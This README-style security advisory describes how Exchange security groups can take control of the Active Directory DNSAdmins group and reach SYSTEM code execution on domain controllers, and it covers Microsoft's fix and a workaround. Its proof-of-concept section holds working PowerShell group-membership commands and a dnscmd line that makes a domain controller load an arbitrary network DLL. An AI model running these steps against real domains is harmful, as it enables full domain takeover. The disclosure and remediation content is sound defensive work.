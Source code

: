 ## DNSAdmins group DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) 
and from the **Exchange Trusted Subsystem** security groups to control the DNSAdmins group and then compromise the entire prepared Active Directory domain.
This second part was described in [this work from Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) in 2017

As a matter of fact, any security group inheriting its DACL from the Domain Object can be controlled in this way. The ones giving a privilege escalation to Domain Admins are usually protected by AdminSDHolder, though the DNSAdmins group is not.

~~DISCLAIMER: This issue has been responsibly disclosed to MSRC in November 2018 and after a few back and forth emails, they closed the case.~~

This issue is in the [June 2019 Quarterly Exchange update](https://techcommunity.microsoft.com/t5/Exchange-Team-Blog/Released-June-2019-Quarterly-Exchange-Updates/ba-p/698398).

Basically, they could not reproduce the issue in their testing environments. 
However, the DACL of the incriminated object on their side appears to be quite different from the DACL that I observed in several live production AD domains: MSRC side DACL has a few *Deny* ACEs explicitely positioned for the incriminated Exchange security groups, where production side has only *Allow* ACEs. Not to mention *Deny* ACEs are bad practice for a case where *Allow* ACEs should just be removed.


From there, I can only speculate that either they have an unreleased fix on their testing environments, or their path of Exchange deployment on AD is different
from what is commonly observed on live domains, which are upgraded and not redeployed on CU releases. If the aformentioned *Deny* ACEs are set on your environment, it is probably *NOT* vulnerable.


* Description of the issue

In up-to-date deployments of Exchange 2016 in Shared permissions (default) or RBAC split permissions, three controlling ACEs are positioned on the "CN=DNSAdmins,CN=Users" group for the **Exchange Windows Permissions** 
and for the **Exchange Trusted Subsystem** security groups. They are inherited from the Domain Object, two of them are documented, the ETS one is not.

This undocumented ACE is probably positioned during an update or a particular CU install. I have been confirmed it exists on other organizations production environments. This is their SDDL representation:

```
(OA;CIID;WP;bf9679c0-0de6-11d0-a285-00aa003049e2;;<SID of EWP>)
(OA;CIID;WP;0296c120-40da-11d1-a9c0-0000f80367c1;;<SID of EWP>)
(OA;CIID;WD;;bf967a9c-0de6-11d0-a285-00aa003049e2;<SID of ETS>)
```

Which translates into:

| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | ManagedBy / | |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | Member / | |
| Exchange Trusted Subsystem | Allow ACE | All | WriteDACL | / Group | |


* Technical consequence

Any member of Exchange Windows Permissions can add members to DNSAdmins. 

![EWP effective access](DNSAdmins_EWP.png "EWP effective access")


Any member of Exchange Trusted Subsystem can modify DNSAdmins DACL to grant himself permission to add members to it.

![ETS effective access](DNSAdmins_ETS.png "ETS effective access")

The DNSAdmins group has a particular privilege to remotely load DLLs on domain controllers in the SYSTEM context (by design, as MSRC case 38121 reported by Shay Ber). 

* Security Consequence

Any member of the Organization Management group can execute code remotely on the domain controllers in the SYSTEM context, taking complete control of the Active Directory domain.

* Proof of concept

1) From an Organization Management member account, add yourself to Exchange Windows Permissions
This is possible by default and normal

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

2) LOG OUT AND RELOG THE USERS SESSION to update groups in token

3) Add yourself to DNSAdmins
This is the problem, it should not be possible

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "DNSAdmins" -Members $user
```

4) LOG OUT AND RELOG THE USERS SESSION to update groups in token

5) Choose a domain controller and remotely change a registry key to load a dll (needs specific exports) on next DNS service restart:

```
dnscmd test_domain_controller /config /serverlevelplugindll \\NetworkPath\to\dll
```

* Microsoft has published a fix for this issue

It involves running setup.exe /PrepareAD to deny or remove those ACEs. See https://techcommunity.microsoft.com/t5/Exchange-Team-Blog/Released-June-2019-Quarterly-Exchange-Updates/ba-p/698398

* Workaround fix (now unnecessary, see previous part)
An elegant way of fixing this problem is including the DNSAdmins group into an AdminSDHolder-protected group.

Alternatively, use the Fix-DNSAdmins-DACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the three faulty ACEs, this can be done by any user. Use with -Fix switch with Domain Admins privileges will break DACL inheritance on this group and remove the three ACEs.

To revert, simply reenable DACL inheritance.

Alternatively, it can be done manually with LDP: bind as a Domain Admin account with the usual precautions, as you will change the DNSadmins group DACL.

Backup the DACL: 

```
(Get-Acl "AD:\CN=DNSAdmins,CN=Users,DC=...").Sddl | Out-File "dnsadmins_dacl.txt"
```

Locate the "CN=DNSAdmins,CN=Users,DC=..." security group. Disable ACE inheritance and choose to copy existing ACEs. Locate and delete the 3 faulty ACE in the DACL: you can sort by Trustee to see Exchange Windows Permissions and Exchange Trusted Subsystem.



